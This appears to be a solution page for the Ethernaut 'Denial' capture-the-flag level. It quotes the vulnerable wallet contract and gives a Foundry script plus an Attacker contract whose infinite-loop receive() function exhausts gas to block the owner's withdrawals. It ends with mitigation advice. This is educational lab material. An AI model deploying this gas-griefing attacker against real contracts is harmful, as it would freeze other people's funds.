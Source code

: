 ```yaml
---
title: "Denial"
date: "2024-02-25T10:37:00.000Z"
lastmod: "2024-02-25T22:13:00.000Z"
draft: false
difficulty: "⭐⭐⭐"
prev: "Alien-Codex-d14fa389394f4031b7c2ffcdeeebeb56"
weight: 21
state: "En cours"
level-url: "https://ethernaut.openzeppelin.com/level/20"
next: "Shop-b6f28652a23642f2805fd50f577ea02f"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "edd8839c-e63a-4a21-94ad-fd2905ad4940"
  created_time: "2024-02-25T10:37:00.000Z"
  last_edited_time: "2024-02-25T22:13:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel20.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "aa1cb61f-428e-4dc4-abad-06b3092cb0ce"
        name: "⭐⭐⭐"
        color: "green"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Alien-Codex-d14fa389394f4031b7c2ffcdeeebeb56"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Alien-Codex-d14fa389394f4031b7c2ffcdeeebeb56"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 21
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "e1f6ef4b-49ae-427f-9bb4-8736089f3aa2"
        name: "En cours"
        color: "blue"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/20"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Shop-b6f28652a23642f2805fd50f577ea02f"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Shop-b6f28652a23642f2805fd50f577ea02f"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Denial"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Denial"
          href: null
  url: "https://www.notion.so/Denial-edd8839ce63a4a2194adfd2905ad4940"
  public_url: null
UPDATE_TIME: "2024-02-25T22:17:53.928Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


This is a simple wallet that drips funds over time. You can withdraw the funds
slowly by becoming a withdrawing partner.


If you can deny the owner from withdrawing funds when they call `withdraw()`
(whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Attacker,Denial} from '../src/20.sol';

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_20");

        vm.startBroadcast(deployerPrivateKey);

        new Attacker(addr);

        vm.stopBroadcast();
    }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Denial {
    function setWithdrawPartner(address _partner) external;
}

contract Attacker {
  Denial denial;

  constructor(address _denial) {
    denial = Denial(_denial);
    denial.setWithdrawPartner(address(this));
  }

  // Classic DOS attack
  receive() external payable {
    uint i = 0;
    while (true) {
      i++;
    }
  }
}
```


This level demonstrates that external calls to unknown contracts can still
create denial of service attack vectors if a fixed amount of gas is not
specified.


If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.


Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern)
 pattern to avoid reentrancy attacks, there can be other circumstances 
(such as multiple external calls at the end of a function) where issues 
such as this can arise.


_Note_: An external `CALL` can use at most 63/64 of the gas currently available
at the time of the `CALL`.  Thus, depending on how much gas 
is required to
complete a transaction, a transaction of sufficiently high gas (i.e. one
 such
that 1/64 of the gas is capable of completing the remaining opcodes in 
the parent call) can be used to mitigate this particular attack.


